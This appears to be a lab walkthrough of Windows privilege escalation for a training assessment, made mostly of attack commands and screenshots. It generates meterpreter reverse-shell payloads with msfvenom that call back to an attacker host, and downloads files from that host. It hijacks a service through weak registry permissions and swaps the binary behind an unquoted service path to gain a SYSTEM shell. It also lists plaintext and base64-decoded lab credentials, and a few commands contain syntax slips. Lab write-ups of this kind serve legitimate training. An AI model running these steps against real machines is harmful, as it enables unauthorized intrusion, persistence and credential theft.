---
---

# IML - Privilege Escalation: Windows – Demonstrate Your Skills




```bash
xfreerdp /v:10.102.88.102 /u:teddy /p:burger /dynamic-resolution

```
**<u>Weak Registry Permissions</u>**

- Upload WinPEAS

Found:







- Can also check manullay with:
Upload accesschk64.exe

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\teddy\accesschk64.exe')
.\accesschk64.exe #Run this first and agree to the terms
.\accesschk64.exe -kw hklm\System\CurrentControlSet\Services | Select-String -Pattern "teddy" -Context 1,3

```



```bash
reg query HKLM\system\currentcontrolset\services\InstallerService /s /v imagepath

```



```bash
Get-Acl -Path HKLM:system\currentcontrolset\services\InstallerService | format-list

```



```bash
$acl = get-acl HKLM:system\currentcontrolset\services\InstallerService

ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}

```



- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=4445 -f exe -o reverse.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 4445; exploit"

```
- Copy reverse payload over:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/reverse.exe',' C:\Users\teddy\reverse.exe')

```
- Modifying The Registry "InstallerService"

We will now modify the ImagePath value for the InstallerService registry and set it as the path of the custom executable "reverse.exe"

```bash
reg add "HKLM\system\currentcontrolset\services\InstallerService" /t REG_EXPAND_SZ /v ImagePath /d C:\Users\teddy\reverse.exe" /f

```



```bash
whoami /all

```



User has the **SeShutdownPrivilege** - So we can restart the machine, which will restart the service:

```bash
shutdown /r /t 0

```
Got SYSTEM shell




- More stable shell:
```bash
ps

migrate <ps number>

```






**DefaultUserAccount : U8WXLhuAVQs25f7R**

**<u>Stolen Credentials</u>**




```bash
xfreerdp /v:10.102.188.254 /u:DefaultUserAccount /p:U8WXLhuAVQs25f7R /dynamic-resolution

```
- Upload WinPEAS:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\DefaultUserAccount\winPEAS.exe')

```









- We can read files from svcSetup:

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\pass

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\user

- Base64 decode the files:
```bash
echo "c3ZjU2V0dXA=" | base64 -d

echo "U2V0dXAtQWNjb3VudC1QYXNzd29yZC0x" | base64 -d

```



**svcsetup : Setup-Account-Password-1**

- Run cmd as admin - More choices






**rudy : m9R4pvrRjgFk**

**<u>Unquoted Service Path</u>**


```bash
xfreerdp /v:10.102.131.27 /u:rudy /p:m9R4pvrRjgFk /dynamic-resolution

```
- Upload WinPEAS
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\rudy\winPEAS.exe')

```



NewUpdaterService(NewUpdaterService)\[**C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe**\] - Auto - Running - isDotNet - No quotes and Space detected

File Permissions: rudy \[AllAccess\]


Possible DLL Hijacking in binary folder: **C:\Program Files\Dev Builds\New Updater Service** (rudy \[AllAccess\])

- Manually Check for Services:
```bash
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows\*" } | select Name,DisplayName,StartMode,PathName

```



- Enumerate the system architecture before uploading tools:
```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

```



- Upload accesschk
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\rudy\accesschk64.exe')

```
- With accesschk on the system, we want to enumerate the permissions on the service folder:

```bash
.\accesschk64.exe -wvud "C:\Program Files\Dev Builds\New Updater Service" -accepteula

```



Rudy has FILE_ALL_ACCESS on this folder

- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=5555-f exe -o "Automatic Updater.exe"

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 5555; exploit"

```
- Upload reverse shell
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/"Automatic Updater.exe"',' C:\Users\rudy\\Automatic Updater.exe"')

```
- Rename the original
```bash
mv C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe C:\Program Files\Dev Builds\New Updater Service\Automatic.bak

```
- Move the malicious file into the original folder
```bash
mv ".\Automatic Updater.exe" "C:\Program Files\Dev Builds\New Updater Service"
```

```bash
shutdown /r /t 0 #Because we have the SeShutdown Privilege
```

Got shell



- More stable shell:
```bash
ps

migrate <ps number>
```

